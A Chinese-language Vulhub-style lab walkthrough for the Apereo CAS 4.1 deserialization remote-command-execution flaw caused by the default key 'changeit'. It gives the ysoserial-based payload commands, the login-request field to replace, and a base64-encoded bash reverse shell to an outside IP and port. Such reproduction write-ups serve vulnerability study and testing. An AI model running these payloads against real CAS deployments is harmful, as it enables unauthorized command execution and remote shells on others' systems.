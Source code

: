 # Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

Vulhub执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

### 写入文件

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/awesome_poc"
```

![image-20220223143747931](./images/202202231437193.png)

然后登录Apereo CAS并抓包（默认用户名/密码为casuser/Mellon），将Body中的`execution`值替换成上面生成的Payload发送：

![image-20220221163417155](./images/202202211634315.png)

登录Apereo CAS，touch /tmp/success已成功执行：

![image-20220221163608606](./images/202202211636651.png)

### 写入反弹shell

构造反弹shell并进行base64编码

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

![image-20220223143714661](./images/202202231437964.png)

监听端口，成功反弹shell

![image-20220221164026966](./images/202202211640018.png)

